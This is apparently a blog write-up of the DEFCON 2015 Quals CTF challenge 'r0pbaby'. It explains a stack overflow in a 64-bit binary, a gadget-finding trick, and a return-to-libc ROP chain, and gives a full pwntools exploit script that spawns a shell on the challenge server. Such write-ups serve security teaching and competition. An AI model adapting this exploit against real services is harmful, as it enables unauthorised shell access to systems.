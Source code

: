 ```yaml
---
title: DEFCON CTF 2015 Quals -- r0pbaby
comments: true
permalink: "/:title/"
date: 2015-05-23 22:38
tags:
- DEFCON
- CTF
- ROP
- Pwnable
- Python
categories:
- write-ups
---
```


**Category:** Baby's First  
**Points:** 1
> r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436

<!-- more -->

64 bit ELF. No stack guard, but it has NX & PIE protection.  
The service will give you a menu first:  

> Welcome to an easy Return Oriented Programming challenge...  
> Menu:  
> 1) Get libc address  
> 2) Get address of a libc function  
> 3) Nom nom r0p buffer to stack  
> 4) Exit  

Th first one will print out the `libc.so.6`'s address, which contains the **real** libc base address. The second one will ask you to input a libc function's symbol, and print out the function's address. The third one will ask you to input a number(string length) and a string.  

After we check the binary with IDA Pro, we found the following informations:

```c
v0 = (signed __int64)nptr; // our input buffer
v1 = (signed __int64)&savedregs; // dest
memcpy(&savedregs, nptr, v7);
```

Our input will be stored at `nptr` first, then it'll be memcpy to `savedregs`. Let's check the location of `savedregs`:  
```c 
char nptr[1088]; // [sp+10h] [bp-440h]@2
__int64 savedregs; // [sp+450h] [bp+0h]@22 // on rpb
```

Right on the `rbp`!  
So everytime we choose `3)` and input something, it'll be copy to `rbp`, which means we can overwrite the return address. Since the binary has the **NX protection**, we better try the **return-2-libc** attack.  

The key point is to find a useful gadget. At first I try to leak the libc's base address, and attempt to guess the libc's version so I can calculate the `/bin/sh` and `pop rdi, ret` gadget. But I end with failure, since there's no other memory leakage vulnerability. At this moment, my teammate **bananaapple** propose a solution: **How about we find a gadget that's inside a function?**  

For instance, if we want to find a gadget `pop rdi, ret`, since `pop rdi, ret` = `5f c3` in machine code, we'll just have to find a functions that contains 2 bytes data `5f c3`, then we can calculate the offset and get the gadget's address. 

Using the aforementioned method, we quickly found that `5f c3` was at `_IO_proc_open` + 0x34d and `/bin/sh` was at `_libc_intl_domainname` + 0x0242. With these informations, we can now construct a ROP chain and exploit the service:

```python 
#!/usr/bin/env python

from pwn import *
import sys
import time

#HOST = "localhost"
HOST = "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
PORT = 10436
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc-2.19.so"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32

r = remote(HOST, PORT)

if __name__ == "__main__":

    print r.recvuntil(": ")

    # get system address
    r.sendline("2")
    r.recv(1024)
    r.sendline("system")
    s = r.recvuntil("Exit\n: ")
    print s
    system_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    log.success("system_addr: "+hex(system_addr))

    # get _IO_proc_open address to calculate [pop rdi, ret]'s address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_IO_proc_open")
    s = r.recvuntil("Exit\n: ")
    print s
    open_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    pop_rdi_ret = open_addr + 0x34c + 1
    log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
 
    # get _libc_intl_domainname address to calculate /bin/sh's address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_libc_intl_domainname")
    s = r.recvuntil("Exit\n: ")
    print s
    domain_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    bin_sh = domain_addr + 0x242
    log.success("bin_sh: "+hex(bin_sh))

    payload = "AAAAAAAA" # rbp
    payload += p64(pop_rdi_ret) # pop rdi, ret
    payload += p64(bin_sh) # char* point to /bin/sh
    payload += p64(system_addr) # system

    # send the payload
    r.sendline("3")
    r.recv(1024)
    r.sendline(str(len(payload)))
    r.sendline(payload)
    
    r.interactive()

```

Flag: `W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?`
